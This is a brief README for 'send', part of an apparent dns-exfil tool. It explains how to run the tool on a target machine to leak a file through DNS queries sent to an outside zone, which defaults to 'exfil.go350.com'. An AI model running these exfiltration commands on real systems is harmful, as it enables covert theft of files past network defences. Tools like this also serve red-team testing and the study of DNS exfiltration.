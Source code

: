 # dns-exfil - send

Run send on the target computer to exfiltrate files.

## How to use

```bash
$ send -d -file ../test-files/gpl-3.0.txt -marker wsxdec
```

## Options

```bash
$ send
  -d	enable debugging.
  -file string
    	the local file to exfiltrate.
  -help
    	show help.
  -marker string
    	a unique marker to identify the file in the dns logs. (default "jzp")
  -zone string
    	the dns zone to send the queries to. (default "exfil.go350.com")

```
